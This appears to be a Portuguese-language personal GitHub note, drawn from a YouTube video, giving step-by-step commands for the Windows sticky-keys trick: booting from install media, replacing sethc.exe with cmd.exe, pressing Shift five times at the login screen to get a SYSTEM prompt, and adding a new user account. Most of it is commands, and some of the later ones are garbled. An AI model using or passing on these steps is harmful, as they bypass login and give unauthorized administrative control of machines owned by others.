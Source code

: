 <br>

---

## _Hack_

Por meio das informações apresentadas no vídeo [YouTube: Hacker Tip - Acquiring Administrative Access to Windows!](https://www.youtube.com/watch?v=IT-0FHyNzOU) vi que é possível me adicionar a um perfil de administrador ao Sistema Operacional.

- Passo 1: "Bootar" o Windows com um disco de inicialização do Windows. Na tela que se escolha o idioma, apertar `Shift F10`.
- Passo 2: No _prompt_ de comando, encontrar onde está instalado o Windows, usando um `dir`. Tive problemas ao tentar `cd C:` e, no _prompt_, usei só `C:` e deu certo!

<br>

Observação: A ideia principal é chegar ao _prompt_ antes de logar!, de forma que acessemos o _prompt_ com o perfil de _nt authority\system_ (isso é possível checar com o comando `whoami`). Fiz usando o `sethc.exe`, porém é possível fazer com o `magnify.exe` ou `utilman.exe`.

```powershell
# Encontra a pasta
cd D:
cd windows/system32

# Criando um backup da "Tecla de Aderência"
copy sethc.exe sethc_old.exe

# Copiando o terminal para a "Tecla de Aderência"
copy cmd.exe sethc.exe

# Sair
exit
```

<br>

- Passo 3: Reboota o PC, normalmente, e na tecla de inicialização, clica 5 vezes no Shift, que é a tecla de aderência (aplicativo `sethc.exe`)
- Passo 4: No _prompt_ de comando é possível ver algumas coisas

```powershell
# Descobrir quem sou eu
whoami

# Ver Usuários Listados
net user> [domain]\[username]
```

<br>

- Passo 5: Ainda no prompt de comando é possível adicionar usuários

```powershell
# Adicionar Usuário sem senha, no PC...
net user josesilva * /add    @teste123
```
